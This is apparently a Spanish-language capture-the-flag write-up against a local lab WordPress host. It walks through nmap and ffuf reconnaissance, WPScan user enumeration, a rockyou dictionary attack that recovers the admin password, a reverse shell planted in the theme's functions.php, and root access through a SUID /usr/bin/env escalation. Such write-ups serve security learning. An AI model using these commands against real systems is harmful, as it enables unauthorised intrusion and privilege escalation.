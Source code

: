 # Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Recon
Comenzamos por lanzar un escaneo de puertos como de costumbre, para identificar servicios y versiones en todos los puertos abiertos mediante TCP.
```bash
nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html && open nmap_TCP.html &>/dev/null & disown
```
El escaneo muestra un servidor HTTP sirviendo una página en el puerto 80 y nada más a primera vista, por lo que vamos a echarle un vistazo al contenido de esta. Al visitarla solo me encuentro con la página default de Apache, así que voy a probar a lanzar un fuzzeo con ffuf en busca de directorios ocultos para ampliar un poco la superficie de ataque. Después de solo un par de segundos ffuf encuentra /wordpress.
### WordPress
En esta ruta hay poca cosa, un artículo que se encuentra en http://172.17.0.2/wordpress/index.php/pagina-ejemplo/ algún enlace muerto. Sin duda alguna se trata de un WordPress así que voy a utilizar WhatWeb para identificar la versión mientras dejo ffuf trabajando en los directorios dentro de /wordpress. El fuzzeo no encuentra nada que no me esperase, una licencia, un readme, y el panel de login de WP, por otro lado, whatweb dice que estamos ante un WordPress 6.8.2.

Investigando me encuentro con que las versiones de WP anteriores a las 6.9 que utilizan el plugin wp-file-manager son susceptibles a la ejecución arbitraria de código PHP, lo que nos podría permitir acceder al sistema mediante una reverse shell.

Utilizando WPScan veo que la página no tiene instalado el plugin en cuestión, pero probando más parámetros en wpscan encuentro un usuario: **mario**.
```bash
wpscan --url http://172.17.0.2/wordpress/ -e u

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

```
Ahora, ya sabiendo el usuario vamos a probar a lanzar un ataque diccionario.
### Ataque diccionario
En apenas unos segundos, encontramos la contraseña para el usuario **mario**
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                              
Trying mario / love Time: 00:00:02 <                                                          > (390 / 14344783)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

```
## Exploit
### Reverse Shell
Desde dentro del panel de admin de WP, editamos desde el Theme Code Editor el archivo functions.php y le añadimos la reverse shell de Pentest Monkey, una vez hecho, refrescamos y ya estamos dentro como www-data.
## Post
Al intentar hacer sudo -l no me deja, así que instlado LinPEAS para automatizar el escalado de privilegios. Gracias a LinPEAS encuentro que el /usr/bin/env se ejecuta con privilegios de root, así que vamos a tratar de escalar a través de ese vector. Una vez llegados a este punto, es tan sencillo como ejecutar `usr/bin/env /bin/sh -p`, y ya somos root:
```bash
www-data@e7f63e892112:/$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
```